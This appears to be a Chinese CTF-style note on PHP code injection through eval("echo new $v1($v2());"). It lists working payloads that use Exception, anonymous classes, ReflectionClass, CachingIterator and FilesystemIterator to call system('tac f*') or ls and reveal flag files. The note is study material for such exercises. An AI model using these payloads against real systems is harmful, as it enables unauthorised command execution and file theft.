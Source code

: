 
## **eval和new**
```
eval("echo new $v1($v2());");

让new后面有个正常的类不报错，后拼接操作。payload:
v1=Exception();system('tac f*');//&v2=a



法二 匿名类+魔术方法 
v1=class{ public function __construct(){system('tac fl*');}};&v2=w



或使用echo是的$v1触发__toString()，此时传递的$v2参数会被输出。
再对v2后面的括号进行解释，如v2=system(ls)，$v2()会把 $v2 返回的值会作为函数Q名去调用，但是调用失败了。
v1=ReflectionClass&v2=phpinfo
v1=ReflectionClass&v2=system('tac f*')
v1=CachingIterator&v2=system(ls)
v1=Exception&v2=system(ls)
```
如果有过滤不能使用()，使用getcwd()方法，无需传参返回当前所在目录。
而FilesystemIterator构造方法根据目录返回第一个文件名。
```
v1=FilesystemIterator&v2=getcwd
eval("echo new FilesystemIterator(getcwd());");
```